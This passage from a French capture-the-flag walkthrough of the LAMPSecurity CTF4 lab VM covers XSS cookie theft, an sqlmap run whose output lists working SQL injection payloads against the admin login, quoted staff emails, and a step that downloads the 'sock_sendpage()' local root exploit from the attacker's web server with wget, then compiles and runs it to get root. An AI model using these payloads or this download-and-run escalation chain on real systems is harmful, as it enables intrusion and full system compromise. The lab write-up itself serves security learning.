En remplaçant ici les paramètres par du code Javascript, celui-ci sera réécrit dans la réponse du serveur et s'exécutera dans le navigateur du client. Si le code JavaScript utilisé ici est relativement bénin, il est possible de se servir de cette vulnérabilité pour créer des liens malveillants qui, une fois cliqués par la victime, déclencheront l'exécution du code malveillant dans son navigateur. Il s'agit du cas d'exploitation typique : l'exploitation de ces failles amène à la compromission et au vol de données privées d'un utilisateur. La première stratégie d'un attaquant consiste en général à la récupération d'un cookie pour ensuite usurper l'identité de sa cible.

### Bonus n°2 : Injection SQL sur la page d'authentification admin



```console
root@blinils:~# sqlmap -u "http://192.168.15.131/admin/index.php" --data="username=test&password=abc" --dbms=MySQL

--snip--
[01:11:11] [INFO] testing connection to the target URL
[01:11:11] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[01:11:11] [INFO] testing if the target URL content is stable
[01:11:11] [INFO] target URL content is stable
[01:11:11] [INFO] testing if POST parameter 'username' is dynamic
[01:11:11] [WARNING] POST parameter 'username' does not appear to be dynamic
[01:11:11] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
[01:11:11] [INFO] heuristic (XSS) test shows that POST parameter 'username' might be vulnerable to cross-site scripting (XSS) attacks
--snip--
[01:11:11] [INFO] POST parameter 'username' appears to be 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause' injectable (with --string="In")
[01:11:11] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
--snip--
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
[01:11:11] [INFO] testing if POST parameter 'password' is dynamic
[01:11:11] [WARNING] POST parameter 'password' does not appear to be dynamic
[01:11:11] [INFO] heuristic (basic) test shows that POST parameter 'password' might be injectable (possible DBMS: 'MySQL')
[01:11:11] [INFO] heuristic (XSS) test shows that POST parameter 'password' might be vulnerable to cross-site scripting (XSS) attacks
--snip--
[01:11:11] [INFO] POST parameter 'password' is 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)' injectable 
[01:11:11] [INFO] POST parameter 'password' appears to be 'MySQL >= 5.0.12 OR time-based blind' injectable 
--snip--

Parameter: password (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment) (NOT)
    Payload: username=test&password=abc') OR NOT 7810=7810#

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: username=test&password=abc') OR ROW(4449,6121)>(SELECT COUNT(*),CONCAT(0x71766b7871,(SELECT (ELT(4449=4449,1))),0x716a706271,FLOOR(RAND(0)*2))x FROM (SELECT 5477 UNION SELECT 1960 UNION SELECT 6175 UNION SELECT 1968)a GROUP BY x)-- iClr

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=test&password=abc') OR SLEEP(5)-- qbfc

Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=test' RLIKE (SELECT (CASE WHEN (7773=7773) THEN 0x74657374 ELSE 0x28 END))-- VTAp&password=abc

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT * FROM (SELECT(SLEEP(5)))oXsY)-- RKmF&password=abc

--snip--
[01:11:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL >= 4.1
```

### Bonus n°3 : Analyse des e-mails de chaque utilisateur

Premier mail : James Durbin informe Don Stevens que RoundCube n'a pu être installé en raison d'une version trop ancienne (et sans doute vulnérable) de PHP.

```
Date: Mon, 9 Mar 2009 10:46:56 -0400 (EDT)
Subject: Server setup
From: "James Durbin" <jdurbin@ctf4.sas.upenn.edu>
To: "Don Stevens" <dstevens@ctf4.sas.upenn.edu>

Hey Don,

I think I got the server pretty much set up.  I just have to make some
more adjustments.  Unfortunately I couldn't get RoundCube installed
because our version of PHP is too low.  I'll send more updates as I make
them.

-- 
James Durbin
Webmaster
Prof. Ehks Data Research Center
```

Deuxième mail : Don Stevens annonce le lancement de la plate-forme, malgré de futurs patchs à venir.

```
Date: Mon, 9 Mar 2009 10:52:25 -0400 (EDT)
Subject: Server setup
From: "Don Stevens" <dstevens@ctf4.sas.upenn.edu>
To: users@ctf4.sas.upenn.edu

Hello all,

the server is up and running now and should be able to support most of
our needs.  Don and I are still working on installing a few more patches
and configuring things.  Let us know if you have any problems.  Thanks!

-- 
Don Stevens
Sr. Unix Admin
Prof. Ehks Data Research Center
```

Troisième mail : pour mettre en place [la sonde HIDS](https://fr.wikipedia.org/wiki/Syst%C3%A8me_de_d%C3%A9tection_d%27intrusion) [OSSEC](https://github.com/ossec/ossec-hids), Andrew Chen a également dû installer [gcc](https://gcc.gnu.org/) et [binutils](https://www.gnu.org/software/binutils/). Un compilateur est donc installé sur le serveur, c'est parfait !

```
Date: Mon, 9 Mar 2009 11:47:41 -0400 (EDT)
Subject: OSSEC
From: "Andrew Chen" <achen@ctf4.sas.upenn.edu>
To: admins@ctf4.sas.upenn.edu

I'm installing OSSEC v2 on the server - so I also had to install gcc and
binutils.  Just wanted to let you know.

-- 
Andrew Chen
Unix Administrator
Ehks Data Research Center
```

### Bonus n°4 : Utilisation de l'exploit 'sock_sendpage()' Ring0 Privilege Escalation

Hop, un petit serveur Web pour mettre à disposition de la VM LAMPSecurity [cet exploit](https://www.exploit-db.com/exploits/9479/) intitulé _'sock_sendpage()' Ring0 Privilege Escalation_, disponible également sur Kali. Pendant ce temps, le _local root exploit_ est compilé avec gcc puis exécuté, et tadaaam... root !

```console
root@blinils:~# cp /usr/share/exploitdb/exploits/linux/local/9479.c 9479.c
root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Une conclusion idéale pour ce _walkthrough_ sur le quatrième épisode de la saga LAMPSecurity.

```console
[sorzek@ctf4 ~]$ wget http://192.168.15.130:8000/9479.c -q
[sorzek@ctf4 ~]$ gcc 9479.c -o 9479
9479.c:130:28: warning: no newline at end of file
[sorzek@ctf4 ~]$ ./9479
sh-3.1# id
uid=0(root) gid=0(root) groups=100(users),504(sorzek) context=user_u:system_r:unconfined_t
```
